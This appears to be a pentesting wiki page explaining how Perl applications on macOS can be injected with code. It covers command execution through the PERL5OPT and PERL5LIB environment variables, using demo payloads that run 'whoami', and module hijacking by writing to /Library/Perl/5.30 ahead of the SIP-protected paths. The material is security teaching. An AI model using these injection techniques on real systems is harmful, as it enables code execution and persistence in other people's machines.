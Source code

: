 # macOS Perl Applications Injection


## Via `PERL5OPT` & `PERL5LIB` env variable

Using the env variable PERL5OPT it's possible to make perl execute arbitrary commands.\
For example, create this script:

{% code title="test.pl" %}
```perl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
{% endcode %}

Now **export the env variable** and execute the **perl** script:

```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```

Another option is to create a Perl module (e.g. `/tmp/pmod.pm`):

{% code title="/tmp/pmod.pm" %}
```perl
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
{% endcode %}

And then use the env variables:

```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod
```

## Via dependencies

It's possible to list the dependencies folder order of Perl running:

```bash
perl -e 'print join("\n", @INC)'
```

Which will return something like:

```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```

Some of the returned folders doesn't even exist, however, **`/Library/Perl/5.30`** does **exist**, it's **not** **protected** by **SIP** and it's **before** the folders **protected by SIP**. Therefore, someone could abuse that folder to add script dependencies in there so a high privilege Perl script will load it.

{% hint style="warning" %}
However, note that you **need to be root to write in that folder** and nowadays you will get this **TCC prompt**:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (28).png" alt="" width="244"><figcaption></figcaption></figure>

For example, if a script is importing **`use File::Basename;`** it would be possible to create `/Library/Perl/5.30/File/Basename.pm` to make it execute arbitrary code.

## References

* [https://www.youtube.com/watch?v=zxZesAN-TEk](https://www.youtube.com/watch?v=zxZesAN-TEk)

